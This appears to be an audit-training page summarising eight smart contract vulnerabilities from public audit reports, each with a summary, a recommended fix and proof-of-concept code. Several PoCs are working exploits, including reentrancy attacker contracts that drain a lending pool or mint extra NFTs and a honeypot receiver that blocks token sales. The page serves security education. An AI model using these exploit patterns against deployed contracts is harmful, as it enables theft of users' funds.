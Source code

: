 # ETAAcademy-Adudit: 2. Transfer

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>02. Transfer</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>dos</th>
          <td>transfer</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1. [High] Anyone can steal all distributed rewards

### Self-transfer

- Summary: By executing a self-transfer of tokens while in rebase, an attacker can mint additional tokens for themselves, effectively stealing all distributed rewards until that point. This occurs due to a discrepancy in updating share balances during the transfer process, leading to an incorrect calculation of token balances.
- Impact & Recommendation: Consequently, an attacker can repeatedly exploit this flaw to siphon off rewards intended for other users.To mitigate this issue, preventing self-transfers is recommended to prevent further exploitation and potential loss of funds.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#h-02-anyone-can-steal-all-distributed-rewards) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

  function testSelfTransfer() public {
    token.mint(address(this), 100e18);

    // Mint some tokens to bob and alice
    token.mint(alice, 10e18);
    token.mint(bobby, 10e18);
    // Bob enters the rebase since he wants to earn some profit
    vm.prank(bobby);
    token.enterRebase();
    // Tokens are distributed among all rebase users
    token.distribute(10e18);
    // Nobody claims the rebase rewards for 10 days - just for an example
    // Alice could frontrun every call that changes the unmintedRebaseRewards atomically
    // and claim all the rewards for herself
    vm.warp(block.timestamp + 10 days);
    // --------------------- ATOMIC TX ---------------------
    vm.startPrank(alice);
    token.enterRebase();
    uint256 token_balance_alice_before = token.balanceOf(alice);
    // Here the max she could transfer and steal is the unmintedRebaseRewards() amount
    // but we are using 3e18 just for an example as 3e18 < unmintedRebaseRewards()
    // since there is no public getter for unmintedRebaseRewards
    token.transfer(alice, 3e18);
    token.exitRebase();
    vm.stopPrank();
    uint256 token_balance_alice = token.balanceOf(alice);
    // --------------------- END ATOMIC TX ---------------------
    console.log("Token balance alice before : ", token_balance_alice_before);
    console.log("Token balance alice after  : ", token_balance_alice);
    console.log("--------------------------------------------------");
    console.log("Alice profit credit        : ", token_balance_alice - token_balance_alice_before);
  }


  ```

  </details>

## 2. [Medium] Inability to withdraw funds for certain users due to whenNotPaused modifier in RateLimitedMinter

### EmergencyWithdraw for paused protocol

- Summary: The GUARDIAN role is meant to freeze new protocol usage but allow fund withdrawals. However, the whenNotPaused modifier in the RateLimitedMinter.mint() function prevents users from withdrawing funds if they have CREDIT tokens staked with pending guild rewards. This occurs because the SurplusGuildMinter.unstake() function, called during withdrawal, tries to mint rewards through RateLimitedMinter.mint() by getRewards(), which fails if the protocol is paused.

- Impact & Recommendation: Introduce emergencyWithdraw for users to withdraw funds, excluding rewards when the protocol is paused.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-02-inability-to-withdraw-funds-for-certain-users-due-to-whennotpaused-modifier-in-ratelimitedminter) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity
    function unstake(address term, uint256 amount) external {
        // apply pending rewards
        (, UserStake memory userStake, bool slashed) = getRewards(
            msg.sender,
            term
        );
    ...


    function getRewards(
        address user,
        address term
    )
        public
        returns (
            uint256 lastGaugeLoss, // GuildToken.lastGaugeLoss(term)
            UserStake memory userStake, // stake state after execution of getRewards()
            bool slashed // true if the user has been slashed
        )
    {
    ...

                // forward rewards to user
            if (guildReward != 0) {
                RateLimitedMinter(rlgm).mint(user, guildReward);
                emit GuildReward(block.timestamp, user, guildReward);
            }
    ...

    function mint(
        address to,
        uint256 amount
    ) external onlyCoreRole(role) whenNotPaused {
        _depleteBuffer(amount); /// check and effects
        IERC20Mintable(token).mint(to, amount); /// interactions
    }


  ```

  </details>

## 3. [Medium] Auction manipulation by block stuffing and reverting on ERC-777 hooks

### Block stuffing attack on the auction

- Summary: A low immutable auction duration set in the deployment script can enable profitable block stuffing attacks on desired Layer 2 (L2) chains. The attacker borrows a loan to receive credit tokens and deposit collateral into the protocol. After the first partial duration, the attacker fails to repay the loan and initiates an auction. The attacker exploits the system by preventing bids until the midpoint, reducing costs, then begins block stuffing to acquire collateral by less credit tokens. Ultimately, the attacker may acquire almost the full loan amount, surpassing the gas cost for block stuffing.

- Impact & Recommendation: The attacker can manipulate the auction to acquire full collateral for almost zero credit tokens, resulting in loss for all stakers on the term. Increasing auction duration and implementing fixes to prevent bad debt from collateral token blacklisting can mitigate such attacks and prevent total loss of stake for lenders.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-16-auction-manipulation-by-block-stuffing-and-reverting-on-erc-777-hooks) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

    function bid(bytes32 loanId) external {
        ...
        LendingTerm(_lendingTerm).onBid(
            loanId,
            msg.sender,
            auctions[loanId].collateralAmount - collateralReceived, // collateralToBorrower
            collateralReceived, // collateralToBidder
            creditAsked // creditFromBidder
        );
        ...
    }
    function onBid(
        bytes32 loanId,
        address bidder,
        uint256 collateralToBorrower,
        uint256 collateralToBidder,
        uint256 creditFromBidder
    ) external {
        ...
        int256 pnl;
        uint256 interest;
        if (creditFromBidder >= principal) {
            interest = creditFromBidder - principal;
            pnl = int256(interest);
        } else {
            pnl = int256(creditFromBidder) - int256(principal);
            principal = creditFromBidder;
            require(
                collateralToBorrower == 0,
                "LendingTerm: invalid collateral movement"
            );
        }
        ...
        // handle profit & losses
        if (pnl != 0) {
            // forward profit, if any
            if (interest != 0) {
                CreditToken(refs.creditToken).transfer(
                    refs.profitManager,
                    interest
                );
            }
            ProfitManager(refs.profitManager).notifyPnL(address(this), pnl);
        }
        ...
    }
    function notifyPnL(
        address gauge,
        int256 amount
    ) external onlyCoreRole(CoreRoles.GAUGE_PNL_NOTIFIER) {
        ...
        // handling loss
        if (amount < 0) {
            uint256 loss = uint256(-amount);
            // save gauge loss
            GuildToken(guild).notifyGaugeLoss(gauge);
            // deplete the term surplus buffer, if any, and
            // donate its content to the general surplus buffer
            if (_termSurplusBuffer != 0) {
                termSurplusBuffer[gauge] = 0;
                emit TermSurplusBufferUpdate(block.timestamp, gauge, 0);
                _surplusBuffer += _termSurplusBuffer;
            }
            if (loss < _surplusBuffer) {
                // deplete the surplus buffer
                surplusBuffer = _surplusBuffer - loss;
                emit SurplusBufferUpdate(
                    block.timestamp,
                    _surplusBuffer - loss
                );
                CreditToken(_credit).burn(loss);
            }
        } ...
    }
    function notifyGaugeLoss(address gauge) external {
        require(msg.sender == profitManager, "UNAUTHORIZED");
        // save gauge loss
        lastGaugeLoss[gauge] = block.timestamp;
        emit GaugeLoss(gauge, block.timestamp);
    }
    /// @notice apply a loss that occurred in a given gauge
    /// anyone can apply the loss on behalf of anyone else
    function applyGaugeLoss(address gauge, address who) external {
        // check preconditions
        uint256 _lastGaugeLoss = lastGaugeLoss[gauge];
        uint256 _lastGaugeLossApplied = lastGaugeLossApplied[gauge][who];
        require(
            _lastGaugeLoss != 0 && _lastGaugeLossApplied < _lastGaugeLoss,
            "GuildToken: no loss to apply"
        );
        // read user weight allocated to the lossy gauge
        uint256 _userGaugeWeight = getUserGaugeWeight[who][gauge];
        // remove gauge weight allocation
        lastGaugeLossApplied[gauge][who] = block.timestamp;
        _decrementGaugeWeight(who, gauge, _userGaugeWeight);
        if (!_deprecatedGauges.contains(gauge)) {
            totalTypeWeight[gaugeType[gauge]] -= _userGaugeWeight;
            totalWeight -= _userGaugeWeight;
        }
        // apply loss
        _burn(who, uint256(_userGaugeWeight));
        emit GaugeLossApply(
            gauge,
            who,
            uint256(_userGaugeWeight),
            block.timestamp
        );
    }

  ```

  </details>

## 4. [High] Exploitation of the receive Function to Steal Funds

### Reentrancy by receive function

- Summary: The contract has a reentrancy vulnerability due to a flaw in its guard mechanism. Attackers can reset the guard using a receive function, allowing them to execute unauthorized withdrawals. They can deposit ETH, borrows some, then initiates a withdrawal, resetting the guard to pay off their own loan and withdraw additional funds.

- Impact & Recommendation: The vulnerability enables unauthorized fund withdrawals from the contract. The recommendation is to add a reentrancy check to the \_sendValue function to prevent exploitation, without disrupting transfers from the WETH address.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-02-wise-lending#h-01-exploitation-of-the-receive-function-to-steal-funds) & [Report](https://code4rena.com/reports/2024-02-wise-lending)

  <details><summary>POC</summary>

  ```solidity
    // import ContractA
    import "./ContractA.sol";
    // import MockErc20
    import "./MockContracts/MockErc20.sol";
    contract WiseLendingShutdownTest is Test {
        ...
        ContractA public contractA;
        function _deployNewWiseLending(bool _mainnetFork) internal {
            ...
            contractA = new ContractA(address(FEE_MANAGER_INSTANCE), payable(address(LENDING_INSTANCE)));
            ...
        }
        function testExploitReentrancy() public {
            uint256 depositValue = 10 ether;
            uint256 borrowAmount = 2 ether;
            vm.deal(address(contractA), 2 ether);
            ORACLE_HUB_INSTANCE.setHeartBeat(WETH_ADDRESS, 100 days);
            POSITION_NFTS_INSTANCE.mintPosition();
            uint256 nftId = POSITION_NFTS_INSTANCE.tokenOfOwnerByIndex(address(this), 0);
            LENDING_INSTANCE.depositExactAmountETH{value: depositValue}(nftId);
            LENDING_INSTANCE.borrowExactAmountETH(nftId, borrowAmount);
            vm.prank(address(LENDING_INSTANCE));
            MockErc20(WETH_ADDRESS).transfer(address(FEE_MANAGER_INSTANCE), 1 ether);
            // check contractA balance
            uint ethBalanceStart = address(contractA).balance;
            uint wethBalanceStart = MockErc20(WETH_ADDRESS).balanceOf(address(contractA));
            //total
            uint totalBalanceStart = ethBalanceStart + wethBalanceStart;
            console.log("totalBalanceStart", totalBalanceStart);
            // deposit using contractA
            vm.startPrank(address(contractA));
            LENDING_INSTANCE.depositExactAmountETHMint{value: 2 ether}();
            vm.stopPrank();
        FEE_MANAGER_INSTANCE._increaseFeeTokens(WETH_ADDRESS, 1 ether);

            // withdraw weth using contractA
            vm.startPrank(address(contractA));
            LENDING_INSTANCE.withdrawExactAmount(2, WETH_ADDRESS, 1 ether);
            vm.stopPrank();
            // approve feemanager for 1 weth from contractA
            vm.startPrank(address(contractA));
            MockErc20(WETH_ADDRESS).approve(address(FEE_MANAGER_INSTANCE), 1 ether);
            vm.stopPrank();
            // borrow using contractA
            vm.startPrank(address(contractA));
            LENDING_INSTANCE.borrowExactAmount(2,  WETH_ADDRESS, 0.5 ether);
            vm.stopPrank();
            // Payback amount
            //499537556593483218
            // withdraw using contractA
            vm.startPrank(address(contractA));
            LENDING_INSTANCE.withdrawExactAmountETH(2, 0.99 ether);
            vm.stopPrank();
            // check contractA balance
            uint ethBalanceAfter = address(contractA).balance;
            uint wethBalanceAfter = MockErc20(WETH_ADDRESS).balanceOf(address(contractA));
            //total
            uint totalBalanceAfter = ethBalanceAfter + wethBalanceAfter;
            console.log("totalBalanceAfter", totalBalanceAfter);
            uint diff = totalBalanceAfter - totalBalanceStart;
            assertEq(diff > 5e17, true, "ContractA profit greater than 0.5 eth");
        }
    // SPDX-License-Identifier: -- WISE --
    pragma solidity =0.8.24;
    // import lending and fees contracts
    import "./WiseLending.sol";
    import "./FeeManager/FeeManager.sol";
    contract ContractA {
        address public feesContract;
        address payable public lendingContract;
        address constant WETH_ADDRESS = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
        constructor(address _feesContract, address payable _lendingContract) payable {
            feesContract = _feesContract;
            lendingContract = _lendingContract;
        }
        fallback() external payable {
            if (msg.sender == lendingContract) {
                // send lending contract 0.01 eth to reset reentrancy flag
                (bool sent, bytes memory data) = lendingContract.call{value: 0.01 ether}("");
                //paybackBadDebtForToken
                FeeManager(feesContract).paybackBadDebtForToken(2, WETH_ADDRESS, WETH_ADDRESS, 499537556593483218);
            }
        }
    }


  ```

  </details>

## 5. [High] Player can mint more fighter NFTs during claim of rewards by leveraging reentrancy on the claimRewards() function

### Reentrancy by roundId

- Summary: A reentrancy vulnerability in the `claimRewards` function allows a malicious user to mint more fighter NFTs than they are entitled to. By using a smart contract, a user can repeatedly reenter the function during the reward claim process, resulting in excessive minting of NFTs stems from the `roundId`.
- Impact & Recommendation: Use a `nonReentrant` modifier for the `claimRewards` function.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-02-ai-arena#h-08-player-can-mint-more-fighter-nfts-during-claim-of-rewards-by-leveraging-reentrancy-on-the-claimrewards-function) & [Report](https://code4rena.com/reports/2024-02-ai-arena)

  <details><summary>POC</summary>

  ```solidity
    import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";
    contract Attack is IERC721Receiver {

        address owner;
        uint256 tickets = 0;
        MergingPool mergingPool;
        FighterFarm fighterFarm;
        constructor(address mergingPool_, address fighterFarm_) {
            mergingPool = MergingPool(mergingPool_);
            fighterFarm = FighterFarm(fighterFarm_);
            owner = msg.sender;
        }
        function reenter() internal {
            ++tickets;
            if (tickets < 100) {
                (string[] memory _modelURIs, string[] memory _modelTypes, uint256[2][] memory _customAttributes) = setInformation();
                mergingPool.claimRewards(_modelURIs, _modelTypes, _customAttributes);
            }
        }
        function onERC721Received(address, address, uint256 tokenId, bytes calldata) public returns (bytes4) {
            reenter();
            return IERC721Receiver.onERC721Received.selector;
        }
        function attack() public {
            (string[] memory _modelURIs, string[] memory _modelTypes, uint256[2][] memory _customAttributes) = setInformation();
            mergingPool.claimRewards(_modelURIs, _modelTypes, _customAttributes);
        }
        function setInformation() public pure returns (string[] memory, string[] memory, uint256[2][] memory) {
            string[] memory _modelURIs = new string[](3);
            _modelURIs[0] = "ipfs://bafybeiaatcgqvzvz3wrjiqmz2ivcu2c5sqxgipv5w2hzy4pdlw7hfox42m";
            _modelURIs[1] = "ipfs://bafybeiaatcgqvzvz3wrjiqmz2ivcu2c5sqxgipv5w2hzy4pdlw7hfox42m";
            _modelURIs[2] = "ipfs://bafybeiaatcgqvzvz3wrjiqmz2ivcu2c5sqxgipv5w2hzy4pdlw7hfox42m";
            string[] memory _modelTypes = new string[](3);
            _modelTypes[0] = "original";
            _modelTypes[1] = "original";
            _modelTypes[2] = "original";
            uint256[2][] memory _customAttributes = new uint256[2][](3);
            _customAttributes[0][0] = uint256(1);
            _customAttributes[0][1] = uint256(80);
            _customAttributes[1][0] = uint256(1);
            _customAttributes[1][1] = uint256(80);
            _customAttributes[2][0] = uint256(1);
            _customAttributes[2][1] = uint256(80);
            return (_modelURIs, _modelTypes, _customAttributes);
        }
    }

  ```

  ```solidity
      function testReenterPOC() public {
        address Bob = makeAddr("Bob");
        Attack attacker = new Attack(address(_mergingPoolContract), address(_fighterFarmContract));

        _mintFromMergingPool(address(attacker));
        _mintFromMergingPool(Bob);
        assertEq(_fighterFarmContract.ownerOf(0), address(attacker));
        assertEq(_fighterFarmContract.ownerOf(1), Bob);
        uint256[] memory _winners = new uint256[](2);
        _winners[0] = 0;
        _winners[1] = 1;
         // winners of roundId 0 are picked
        _mergingPoolContract.pickWinner(_winners);
        assertEq(_mergingPoolContract.isSelectionComplete(0), true);
        assertEq(_mergingPoolContract.winnerAddresses(0, 0) == address(attacker), true);
        // winner matches ownerOf tokenId
        assertEq(_mergingPoolContract.winnerAddresses(0, 1) == Bob, true);
        string[] memory _modelURIs = new string[](2);
        _modelURIs[0] = "ipfs://bafybeiaatcgqvzvz3wrjiqmz2ivcu2c5sqxgipv5w2hzy4pdlw7hfox42m";
        _modelURIs[1] = "ipfs://bafybeiaatcgqvzvz3wrjiqmz2ivcu2c5sqxgipv5w2hzy4pdlw7hfox42m";

        string[] memory _modelTypes = new string[](2);
        _modelTypes[0] = "original";
        _modelTypes[1] = "original";
        uint256[2][] memory _customAttributes = new uint256[2][](2);
        _customAttributes[0][0] = uint256(1);
        _customAttributes[0][1] = uint256(80);
        _customAttributes[1][0] = uint256(1);
        _customAttributes[1][1] = uint256(80);
        // winners of roundId 1 are picked
        uint256 numberOfRounds = _mergingPoolContract.roundId();
        console.log("Number of Rounds: ", numberOfRounds);
        _mergingPoolContract.pickWinner(_winners);
        _mergingPoolContract.pickWinner(_winners);
        console.log("------------------------------------------------------");
        console.log("Balance of attacker (Alice) address pre-claim rewards: ", _fighterFarmContract.balanceOf(address(attacker)));
        // console.log("Balance of Bob address pre-claim rewards: ", _fighterFarmContract.balanceOf(Bob));
        uint256 numRewardsForAttacker = _mergingPoolContract.getUnclaimedRewards(address(attacker));

        // uint256 numRewardsForBob = _mergingPoolContract.getUnclaimedRewards(Bob);
        console.log("------------------------------------------------------");
        console.log("Number of unclaimed rewards attacker (Alice) address has a claim to: ", numRewardsForAttacker);
        // console.log("Number of unclaimed rewards Bob address has a claim to: ", numRewardsForBob);

        // vm.prank(Bob);
        // _mergingPoolContract.claimRewards(_modelURIs, _modelTypes, _customAttributes);
        vm.prank(address(attacker));
        attacker.attack();
        uint256 balanceOfAttackerPostClaim = _fighterFarmContract.balanceOf(address(attacker));
        console.log("------------------------------------------------------");
        console.log("Balance of attacker (Alice) address post-claim rewards: ", balanceOfAttackerPostClaim);
        // console.log("Balance of Bob address post-claim rewards: ", _fighterFarmContract.balanceOf(Bob));
    }

  ```

  </details>

## 6.[Medium] Potential arbitrage opportunity in the xRenzoDeposit L2 contract

### Arbitrage

- Summary: In the xRenzoDeposit L2 contract, the sendPrice function updates the price of ezETH to ETH, which is then received by other contracts on Layer 2 (L2). However, a potential arbitrage opportunity exists where a user can monitor the L1 mempool for the sendPrice function call, observe the new price, and exploit it by minting xezETH on L2 before the price adjustment takes effect.

- Impact & Recommendation: Implementing two fees for L2 deposits may mitigate this issue. Additionally, as ezETH tends to be stable, significant price fluctuations are less common. Continuous monitoring and adjusting the update frequency may be necessary to prevent exploitation.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-04-renzo#m-10-potential-arbitrage-opportunity-in-the-xrenzodeposit-l2-contract) & [Report](https://code4rena.com/reports/2024-04-renzo)

  <details><summary>POC</summary>

  ```solidity
      /**
     * @notice  Exposes the price via getRate()
     * @dev     This is required for a balancer pool to get the price of ezETH
     * @return  uint256  .
     */
    function getRate() external view override returns (uint256) {
        return lastPrice;
    }

  ```

  </details>

## 7.[Medium] Malicious Actor Can Steal Deposits of Tokens With Sender Hooks or Cause Lock Of Funds

### Reentrancy hooks

- Summary: The depositERC20 function is vulnerable to reentrancy attacks with tokens that implement sender hooks. An attacker can exploit this by reentering the function during token transfer, depositing tokens multiple times without triggering the reentrancy check. This results in an inflated deposited balance. Consequently, the attacker could withdraw more tokens than deposited, or the contract might lock funds if it lacks sufficient tokens to cover the inflated balance.

- Impact & Recommendation: To prevent this, it is recommended to add reentrancy guards to both the depositERC20 and depositETH functions.
  <br> 🐬: [Source](https://blog.openzeppelin.com/scroll-batch-token-bridge-audit#malicious-actor-can-steal-deposits-of-tokens-with-sender-hooks-or-cause-lock-of-funds) & [Report](https://blog.openzeppelin.com/scroll-batch-token-bridge-audit)

<details><summary>POC</summary>

```solidity
    }

    /// @notice Deposit ETH.
    function depositETH() external payable nonReentrant {
        // no safe cast check here, since no one has so much ETH yet.
        _deposit(address(0), _msgSender(), uint96(msg.value));
    }
	@@ -218,7 +218,7 @@ contract L1BatchBridgeGateway is AccessControlEnumerableUpgradeable, ReentrancyG
    ///
    /// @param token The address of token.
    /// @param amount The amount of token to deposit. We use type `uint96`, since it is enough for most of the major tokens.
    function depositERC20(address token, uint96 amount) external nonReentrant {
        if (token == address(0)) revert ErrorIncorrectMethodForETHDeposit();

        // common practice to handle fee on transfer token.
	@@ -345,7 +345,7 @@ contract L1BatchBridgeGateway is AccessControlEnumerableUpgradeable, ReentrancyG
        address token,
        address sender,
        uint96 amount
    ) internal {
        BatchConfig memory cachedBatchConfig = configs[token];
        TokenState memory cachedTokenState = tokens[token];
        _tryFinalizeCurrentBatch(token, cachedBatchConfig, cachedTokenState);

```

</details>

## 8.[High] Attack to make CurveSubject to be a HoneyPot

### Honeypot

- Summary: A vulnerability in the Curves contract allows malicious creators to turn any CurveSubject into a honeypot, where users can buy but cannot sell tokens. This is due to the referralFeeDestination call always being executed, even if the referral fee is zero. Malicious creators can set a custom referralFeeDestination contract that rejects sell transactions. This contract, EvilReferralFeeReceiver, blocks sells by reverting transactions if the user's token balance decreases.

- Impact & Recommendation: It is recommended to use Solady’s forceSafeTransferETH() for safer ETH transfers. This issue is confirmed and deemed high severity as it requires significant effort to prevent scammers from exploiting it.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-01-curves#h-03-attack-to-make-curvesubject-to-be-a-honeypot) & [Report](https://code4rena.com/reports/2024-01-curves)

<details><summary>POC</summary>

```solidity
import { expect, use } from "chai";
import { solidity } from "ethereum-waffle";
use(solidity);
import { SignerWithAddress } from "@nomiclabs/hardhat-ethers/signers";
//@ts-ignore
import { ethers } from "hardhat";
import { type Curves } from "../contracts/types";
import { buyToken } from "../tools/test.helpers";
import { deployCurveContracts } from "./test.helpers";
describe("Make Curve Subject To Be A Honey Pot test", () => {
  let testContract;
  let evilReferralFeeReceiver;
  let owner: SignerWithAddress, evilSubjectCreator: SignerWithAddress,
      alice: SignerWithAddress, bob: SignerWithAddress, others: SignerWithAddress[];
  beforeEach(async () => {
    testContract = await deployCurveContracts();
    [owner, evilSubjectCreator, alice, bob, others] = await ethers.getSigners();
    const EvilReferralFeeReceiver = await ethers.getContractFactory("EvilReferralFeeReceiver");
    evilReferralFeeReceiver = await EvilReferralFeeReceiver.connect(evilSubjectCreator).deploy();
  });
  it("While 'HONEY POT' mode enabled, users can only buy, but can't sell any Curve token ", async () => {
    // 1. The evil create a subject and set a normal referral fee receiver
    await testContract.connect(evilSubjectCreator).mint(evilSubjectCreator.address);
    await testContract.connect(evilSubjectCreator).setReferralFeeDestination(
      evilSubjectCreator.address, evilSubjectCreator.address
    );
    // 2. The evil buy enough tokens at low price
    await buyToken(testContract, evilSubjectCreator, evilSubjectCreator, 1);
    await buyToken(testContract, evilSubjectCreator, evilSubjectCreator, 10);
    // 3. victims buy or sell tokens normally
    await buyToken(testContract, evilSubjectCreator, alice, 10);
    await testContract.connect(alice).sellCurvesToken(evilSubjectCreator.address, 5);
    await buyToken(testContract, evilSubjectCreator, bob, 10);
    await testContract.connect(bob).sellCurvesToken(evilSubjectCreator.address, 5);
    // 4. at some time point, the evil enables 'HONEY POT' mode by updating the referral fee receiver
    await testContract.connect(evilSubjectCreator).setReferralFeeDestination(
      evilSubjectCreator.address, evilReferralFeeReceiver.address
    );
    await evilReferralFeeReceiver.connect(evilSubjectCreator).setCurvesAndSubject(
      testContract.address, evilSubjectCreator.address
    );
    await evilReferralFeeReceiver.connect(evilSubjectCreator).updateBalances(
      [alice.address, bob.address]
    );
    // 5. now, victims can buy, but can't sell
    await buyToken(testContract, evilSubjectCreator, alice, 1);
    let tx = testContract.connect(alice).sellCurvesToken(evilSubjectCreator.address, 1);
    expect(tx).to.revertedWith("CannotSendFunds()");
    // 6. but the evil can sell tokens normally, of course at a higher price than buy and make profit
    await  evilReferralFeeReceiver.connect(evilSubjectCreator).setAllowList(
      evilSubjectCreator.address, true
    );
    testContract.connect(evilSubjectCreator).sellCurvesToken(evilSubjectCreator.address, 11);
  });
});

```

</details>
